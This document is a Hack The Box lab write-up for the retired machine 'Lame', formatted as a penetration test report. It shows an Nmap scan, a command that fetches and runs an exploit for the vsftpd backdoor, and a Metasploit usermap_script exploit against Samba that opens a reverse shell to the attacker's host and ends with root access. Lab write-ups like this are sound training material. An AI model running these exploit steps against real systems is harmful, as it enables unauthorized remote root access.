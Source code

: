 ![[attachments/Pasted image 20251016173834.png]]
# Hack The Box: Lame (Retired Machine)

- [1. Executive Summary](#1-executive-summary)
- [2. Scanning & Enumeration](#2-scanning--enumeration)
	- [2.1 Port Scan](#21-port-scan)
		- [2.1.1 Output](#211-output)
- [3. Vulnerability Analysis](#3-vulnerability-analysis)
	- [3.1 Remote Shell Access with CVE-2011-2523](#31-remote-shell-access-with-cve-2011-2523)
		- [3.1.1 Fetch and Execute Script](#311-fetch-and-execute-script)
		- [3.1.2 Output](#312-output)
	- [3.2 Remote Command Execution with CVE-2007-2447](#32-remote-command-execution-with-cve-2007-2447)
		- [3.2.1 Launch and Configure Exploit](#321-launch-and-configure-exploit)
		- [3.2.2 Execute Exploit](#322-execute-exploit)
		- [3.2.3 Output](#323-output)
## 1. Executive Summary

This report outlines the penetration test conducted on the target host `lame.htb` under the HackTheBox environment. 

The goal was to identify vulnerabilities and provide recommendations for securing the system.

## 2. Scanning & Enumeration

### 2.1 Port Scan

The following Nmap command was executed:

```bash
nmap -Pn -sC -sV -oN lame.nmap -vv lame.htb
```

#### 2.1.1 Output

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-16 15:07 UTC
Nmap scan report for 10.129.33.67
Host is up (0.086s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.48
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h00m36s, deviation: 2h49m46s, median: 33s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2025-10-16T11:08:51-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Nmap done: 1 IP address (1 host up) scanned in 61.22 seconds
```

## 3. Vulnerability Analysis

### 3.1 Remote Shell Access with CVE-2011-2523

> vsftpd 2.3.4 downloaded between 20110630 and 20110703 contains a backdoor which opens a shell on port 6200/tcp.
> 
> Source: https://www.cvedetails.com/cve/CVE-2011-2523

#### 3.1.1 Fetch and Execute Script

```bash
curl https://www.exploit-db.com/download/49757 -o CVE-2011-2523.py
```

```bash
python3 CVE-2011-2523.py lame.htb
```

#### 3.1.2 Output

```bash
# The command did not execute successfully, indicating potential issues that require further investigation.
```

### 3.2 Remote Command Execution with CVE-2007-2447

> The MS-RPC functionality in smbd in Samba 3.0.0 through 3.0.25rc3 allows remote attackers to execute arbitrary commands via shell metacharacters involving the (1) SamrChangePassword function, when the "username map script" smb.conf option is enabled, and allows remote authenticated users to execute commands via shell metacharacters involving other MS-RPC functions in the (2) remote printer and (3) file share management.
>
>Source: https://www.cvedetails.com/cve/CVE-2007-2447


#### 3.2.1 Launch and Configure Exploit

```bash
msfconsole

use exploit/multi/samba/usermap_script
set RHOST lame.htb
set LHOST 10.10.14.48
```

#### 3.2.2 Execute Exploit

```bash
exploit
```

#### 3.2.3 Output 

```bash
[*] Started reverse TCP handler on 10.10.14.48:4444 
[*] Command shell session 1 opened (10.10.14.48:4444 -> 10.129.34.7:54082) at 2025-10-16 15:02:33 +0000

whoami
root
```